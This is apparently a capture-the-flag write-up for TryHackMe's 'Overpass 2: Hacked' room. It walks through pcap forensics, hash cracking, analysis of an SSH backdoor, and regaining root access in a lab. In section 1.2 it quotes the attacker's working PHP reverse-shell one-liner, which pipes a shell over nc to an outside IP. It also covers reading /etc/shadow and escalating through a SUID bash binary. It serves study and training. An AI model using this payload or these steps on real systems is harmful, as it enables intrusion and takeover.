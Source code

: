 ```yaml
---
title: THM | Overpass 2
image: /images/op2-home.png
date: 2020-09-26 17:00:00 -4:00
categories: [CTF, THM]
tags: [wireshark, pcap, hashcat, backdoor, go, salt, hash] 

---
```


# Description 
> [Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked), is an easy-rated box on [TryHackMe](https://tryhackme.com/) that has you analyze a pcap file of the network activity that occurred during the time of a breach. You then retrace the attackers steps to regain access to the server.

# `[Task 1]` Forensics - Analyze the PCAP

## `1.1` - What was the URL of the page they used to upload a reverse shell?
There's many ways to filter down the traffic you're looking for. One of the first things I do when analyzing a pcap file in wireshark is to take a look at the export objects. You can get some easy wins this way.

![](/images/op2-exp-obj.png)

![](/images/op2-obj-list.png)
`upload.php` seems like a winner. When you select it in the export list window, it will highlight the packet in wireshark. From there you can just `follow tcp stream` to analyze further.

![](/images/op2-fol-tcp-str.png)
Right away the stream reveals a lot of good info. ez.
![](/images/op2-development.png)
The very first thing shown is the `POST` request made to upload the file we discovered earlier, `upload.php` as well as the `Referer` giving us the first answer. **`/development/`**

## `1.2` - What payload did the attacker use to gain access?
Scrolling down a bit shows the content of the `POST` request and the file `payload.php` with a very common php shell code. 

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
![](/images/op2-payload.png)

## `1.3` - What password did the attacker use to privesc?
Since we know the payload used `nc 192.168.170.145 4242` to make the call back to the attacker, we can use this to filter the pcap file. Using the display filter `ip.addr == 192.168.170.145 and tcp.port == 4242`. 

![](/images/op2-dis-filter.png)

Again, choose any packet and follow the tcp stream. You will see a plethora of information, and as great as `nc` is, it is a very bad choice for keeping your traffic confidential. Everything the attacker did on the server is in clear text for us to analyze.

![](/images/op2-password.png)
> All of the red text is the server and everything in blue is the user's input.

There's the password we're looking for: `whenevernoteartinstant`

## `1.4` - How did the attacker establish persistence?
Scrolling down the same stream, you will see the attacker download a ssh backdoor from [`https://github.com/NinjaJc01/ssh-backdoor`](https://github.com/NinjaJc01/ssh-backdoor) to access the server at a later time.
![](/images/op2-backdoor.png)

## `1.5` - Using the fasttrack wordlist, how many of the system passwords were crackable?
The attacker cat'd the `/etc/shadow` file, copy the hashes and put them into a text file.
![](/images/op2-shadow.png)
### Hashcat
Now use hashcat to crack the hashes. 
![](/images/op2-hashcat.png)

# `[Task 2]` Research - Analyze the code
## `2.1` What's the default hash for the backdoor?
You can either download the repo of the ssh backdoor or just analyze it from github in your browser. It doesn't matter, everything we need is in the `main.go` file. 

Looking over the code you will find a hardcoded hash assigned to a variable.
![](/images/op2-hash.png)

## `2.2` What's the hardcoded salt for the backdoor?
Again going through the same source code, you will find a function called passwordHandler and the hardcoded salt used for the hash.
![](/images/op2-salt.png)

## `2.3` What was the hash that the attacker used? - go back to the PCAP for this!
Going through the tcp stream from earlier, you can clearly see the hash the attacker used with the backdoor.
![](/images/op2-att-hash.png)

## `2.4` Crack the hash using rockyou and a cracking tool of your choice. What's the password?

So there's a few things to hit on real quick:

- When analyzing the source code for the backdoor, we found the hardcoded salt used to hash the password mentioned in `2.2`.
- Also important, is the algorithm used to calculate the hash. Which can also be found in the source code.
```go
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```
- So it's using sha512 to hash the password + salt. 
- Great, now we can start putting together our hashcat command.

Using the [hashcat example hashes menu](https://hashcat.net/wiki/doku.php?id=example_hashes), you will find option `1710` matches our scenario in the form of `sha512($pass.$salt)`

So our command will be in form of `hashcat -m <HASH_TYPE> -a 0 -o <outfile> <HASH:SALT> <wordlist>`
![](/images/op2-hc.png)

cat the output file to reveal the password.
![](/images/op2-hc2.png)

# `[Task 3]` Attack - Get back in!
## `3.1` The attacker defaced the website. What message did they leave as a heading?
Deploy the machine and head over to the website. You will immediately see the defacement. 
![](/images/op2-web.png)

## `3.2` Using the information you've found previously, hack your way back in!
If you have a good memory and are observant, you will remember from the pcap file and the source code, that the `ssh backdoor` is listening on `port 2222`. So simply connect with ssh on that port.
![](/images/op2-ssh.png)

## `3.3` What's the user flag?
Simple enough, just go to james' home directory and cat the user.txt file.
![](/images/op2-user.png)

## `3.4` What's the root flag?
If you did a `ls -la` in james' home directory then you would of seen a hidden binary named `.suid_bash` with the SUID bit set. Seems like a quick way for the attacker to escalate to root, so let's try it out ourselves. 
![](/images/op2-root.png)

Boom, just like that we got root and we can get the last flag.

![](/images/op2-root2.png)
